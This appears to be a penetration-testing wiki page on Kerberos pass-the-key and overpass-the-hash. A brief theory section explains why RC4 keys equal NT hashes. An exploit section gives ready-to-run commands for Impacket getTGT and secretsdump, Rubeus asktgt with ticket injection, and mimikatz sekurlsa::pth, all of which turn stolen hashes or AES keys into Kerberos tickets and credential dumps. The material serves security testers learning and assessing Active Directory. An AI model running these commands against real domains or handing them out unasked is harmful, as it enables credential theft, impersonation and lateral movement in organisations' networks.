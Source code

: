 ## Theory
The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

- When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called overpass the hash.
- When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called pass the key. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.
## Exploit
=== "UNIX-like"
    The Impacket script getTGT (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (LMhash can be empty), or aesKey. The TGT will be saved as a .ccache file that can then be used by other Impacket scripts.
    ```bash
    # with an NT hash (overpass-the-hash)
    getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

    # with an AES (128 or 256 bits) key (pass-the-key)
    getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
    ```
    Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing pass-the-ticket.
    ```bash
    export KRB5CCNAME=/path/to/ticket
    ```
    An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Using that option allows for passing either TGTs or STs. Example below with `secretsdump`.
    ```bash
    secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
    ```
=== "Windows"
    On Windows, requesting a TGT can be achieved with Rubeus (C#). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.
    ```bash
    # with an NT hash
    Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

    # with an AES 128 key
    Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$aes128_key /ptt

    # with an AES 256 key
    Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$aes256_key /ptt
    ```
    An alternative to Rubeus is mimikatz with `sekurlsa::pth`.
    ```bash
    # with an NT hash
    sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

    # with an AES 128 key
    sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

    # with an AES 256 key
    sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
    ```